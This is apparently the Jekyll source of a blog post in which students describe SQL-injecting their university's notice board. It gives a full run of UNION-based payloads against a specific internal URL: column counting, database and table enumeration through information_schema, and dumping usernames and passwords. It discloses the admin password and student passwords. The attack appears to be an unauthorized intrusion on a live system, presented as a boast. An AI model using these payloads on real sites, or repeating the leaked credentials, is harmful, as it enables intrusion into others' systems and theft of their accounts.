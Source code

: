 ```yaml
---
layout: post
title: We hacked our university notice board!
date: 2014-07-10 06:44:56.000000000 +05:30
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 5668e0defa143267af983836917cd517
---
```


It's been nearly 3 months since my last post. Today I thought "It will be helpful for the guys who are interested in Cyber Security , If I write about UNION Based SQLi that we did on our univeristy Notice board.
A little learning part before we jump on to exploitation.

<pre>
<b># Just selecting 1 2 and 3</b>
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+

<b># database() is a MySQL function to get current database name.</b>
mysql> select database();
+-----------------+
| database()      |
+-----------------+
| UNIONBased_SQLi |
+-----------------+

<b># Just selecting 1,database(),3</b>
mysql> select 1,database(),3;
+---+-----------------+---+
| 1 | database()      | 3 |
+---+-----------------+---+
| 1 | UNIONBased_SQLi | 3 |
+---+-----------------+---+

<b># group_concat() is a MySQL function which concatenates all the rows</b>
mysql> select group_concat(username,"-",password) from users;
+---------------------------------------------------+
| group_concat(username,"-",password)               |
+---------------------------------------------------+
| admin-admin@onb,N090001-rgukt123,N090002-rgukt123 |
+---------------------------------------------------+

<b># Example of a MySQL UNION operator. </b>
mysql> select 1,2,3 UNION select 4,5,6;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| 4 | 5 | 6 |
+---+---+---+

<b># UNION only works when two select statements have the same no.of columns.</b>
mysql> select 1,2,3 UNION select 5,6;
ERROR: The used SELECT statements have a different number of columns

<b># To nullify the result of LHS select statement I appended a condition 1=0
 which is false. So the results include only RHS select statement results.</b>
mysql> select username from users where sno=1 and 1=0 UNION select 1;
+----------+
| username |
+----------+
| 1        |
+----------+
</pre>

Good, have a glance at why we started this :-)

After doing brute-force attack on a webpage for getting flag in a [CTF](https://ctftime.org/ctf-wtf/){:target="_blank"}, we thought it would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.

Hmm.. So what now, we noticed that in notice board there is a page `notice_view.php?id=1` which takes `id` as GET parameter.

{% include image.html url="/assets/5668e0defa143267af983836917cd517/onb.png" description="notice_view.php page" %}

And as we are web developers we came to an estimation that the backend MySQL query might be

{% highlight text %}
select * from tablename where somecolumnname=$_GET["id"];
{% endhighlight %}

Yeah... That one seems compromising and we just gave it a shot with our best injection payload i.e (single quote) into the GET parameter id. Viola!!

{% highlight text %}
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''' at line 1
{% endhighlight %}

Yes! This is vulnerable & we can proceed with exploitation. The best part starts now.

Our next step is to find database name that is used for storing passwords. Exciting isn't it? And we used the below payload

{% highlight text %}
1 and 1=0 UNION select 1,2,3,4,5 --
{% endhighlight %}

So the resultant query becomes

{% highlight text %}
select * from sometablename where
somecolumnname=1 and 1=0 UNION select 1,2,3,4,5 --;
{% endhighlight %}

That payload resulted in an error

{% highlight text %}
The used SELECT statements have a different number of columns
{% endhighlight %}

Yeah it worked. To apply union on 2 SQL query's both must have same no.of columns. But here we didn't know the no.of columns, so to find no.of columns we tried imagining from 1 to some number until which we will not get an SQL error. We used below payloads, and 3rd one made it!

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
{% endhighlight %}

{% include image.html url="/assets/5668e0defa143267af983836917cd517/injected.png" description="First Injection point" %}

So the backend query which is fetching notices is selecting 3 columns, but the webpage is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on webpage.

Cool, so now we can inject a code that will print database name on webpage. There is a MySQL function `database()` which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
{% endhighlight %}

And result of this query is..

{% include image.html url="/assets/5668e0defa143267af983836917cd517/database.png" description="Database name being displayed on page" %}

We have the database name `Notices`, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database `Notices`. In order to do so we have used this payload

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and
1=0 UNION select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES
where TABLE_SCHEMA='Notices' --
{% endhighlight %}

And the result is

{% include image.html url="/assets/5668e0defa143267af983836917cd517/tables.png" description="Table names being displayed on page" %}

Now we got all the tables in `Notices` Database and those are `notices, users`. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION
select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
{% endhighlight %}

{% include image.html url="/assets/5668e0defa143267af983836917cd517/columns.png" description="Column names being displayed on page" %}

Now we just need to print password column from that table, used below payload.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0
UNION select 1,group_concat(username,"-",password),3 from users --
{% endhighlight %}

Result is...

{% include image.html url="/assets/5668e0defa143267af983836917cd517/passwords.png" description="Passwords being displayed on page" %}

Ah! Finally, the admin password is on page and it is: `admin@onb`

And in this post I keep on mentioning we. So we are

[Nageswara Rao Podilapu (Me)](https://www.facebook.com/H4rryp0tt3r7){:target="_blank"} <br>
[Anesh Parvatha](https://www.facebook.com/anesh.cse){:target="_blank"} <br>
[Ambati Bharath](https://www.facebook.com/bharath.hussy){:target="_blank"}

